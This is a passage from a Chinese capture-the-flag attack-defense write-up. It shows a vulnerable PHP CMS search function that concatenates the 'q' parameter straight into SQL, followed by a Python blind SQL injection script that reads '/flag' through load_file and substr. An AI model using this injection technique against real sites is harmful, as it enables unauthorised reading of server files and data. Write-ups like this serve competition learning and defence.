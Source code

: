 ```php
public function init(){	
	$site = get_config();

	$q = trim($_GET['q']);
	$modelid = isset($_GET['modelid']) ? intval($_GET['modelid']) : 1;
	$modelinfo = get_modelinfo();
	$modelarr = array();
	foreach($modelinfo as $val){
		$modelarr[$val['modelid']] = $val['tablename'];
	}
	if(!isset($modelarr[$modelid])) showmsg('模型不存在！', 'stop');
	
	$seo_title = '‘'.$q.'’的搜索结果_'.$site['site_name'];
	$keywords = $q.','.$site['site_keyword'];
	$description = $site['site_description'];
	
	$where = "`title` LIKE '%$q%' AND `status` = 1";
	$db = D($modelarr[$modelid]);
	$total = $db->where($where)->total();
	$page = new page($total, $this->offset);
	$search_data = $db->field('id,title,description,inputtime,updatetime,click,thumb,nickname,url,catid')->where($where)->order('id DESC')->limit($page->limit())->select();
	
	$pages = '<span class="pageinfo">共<strong>'.$page->total().'</strong>页<strong>'.$total.'</strong>条记录</span>'.$page->getfull();
	include template('index','search');	
}
```
比较明显,没任何过滤,直接拼接进去了.同样是盲注:

```python
def exp(ip):
    base_url = "http://%s/index.php?m=search&c=index&a=init&modelid=1&q=1"%ip
    sql = "' or '%s'=substr(load_file('/flag'),%s,1)#"
    s = "0987654321abcdef"
    flag=''
    for i in range(7,39):
        for j in s:
            res = requests.get(base_url+quote(sql%(j,i))).text
            if "substr(load_file" not in res:
                return
            if "共<span>0</span>条" not in res :
                flag+=j
    print(flag)
    return "d3ctf{%s}"%flag
```

web2还有一个任意文件上传,因为其他队修的比较快,也就最开始打了两轮,把比赛服务器打down了,第二次上线后好像都没中招,因此也没去找.

web2有个比较坑的地方,文章被搅屎的师傅删了,然后就被checkdown了,第一天全场只有一队正常,应该就是这队师傅干的(重拳出击).每轮被checkdown,掉了好多分,与第一名失之交臂.

## web3
